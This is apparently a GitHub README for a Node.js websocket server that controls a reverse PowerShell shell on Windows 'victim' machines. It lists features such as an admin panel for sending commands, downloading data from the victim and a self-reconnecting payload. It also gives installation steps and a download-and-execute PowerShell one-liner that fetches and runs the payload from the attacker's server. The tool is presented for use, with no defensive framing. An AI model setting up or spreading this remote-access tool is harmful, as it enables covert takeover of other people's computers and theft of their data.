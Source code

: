 # About NodeJS-Reverse-Powershell-Websocket

This is a http/websocket server written in Nodejs with the ability to pass through Powershell commands to a victim.

## Features
* Nodejs server that handles messages from the attacker(s) & victim(s)
* Simple HTTP admin panel where you can send Powershell commands
* Passworded access for the websocket admin side
* Ability to decode a byte array response from Powershell into a binary download (for quick downloading of data)
* Reconnecting websocket payload Powershell script
* Powershell catches errors that may occur with commands & reports them back to the websocket

## Requirements
* A server capable of a Nodejs environment with Websocket package
* Remote PC (victim) with Windows 10/11

## Known Issues
* Due to the text encoding it's hard to return binaries from the Powershell response without them being malformed
* If you manage to crash/hang Powershell, it's game over.

## Installation
 1. Open ports 3394 (default websocket) & 3395 (default http) on your server
 2. Create a Nodejs environment with Websocket package
 3. Copy files from the repo into your environment
 4. Check the settings & change password in the config file
 5. Start your node server: "node index.js" or "forever start index.js"
 6. Goto "http://[server_ip]:3395/shell.socket" in browser & enter password

## Victim Payload
 1. Edit "pl.ps1" and change the websocket address to your server: $URL = 'ws://[server_ip]:3394'
 2. Execute the payload on the remote PC: "$pl = iwr http://[server_ip]:3395/pl -UseBasicParsing; iex $pl"
 3. Check admin panel for connection

## Preview
![usage](https://i.imgur.com/2FIrXle.gif)
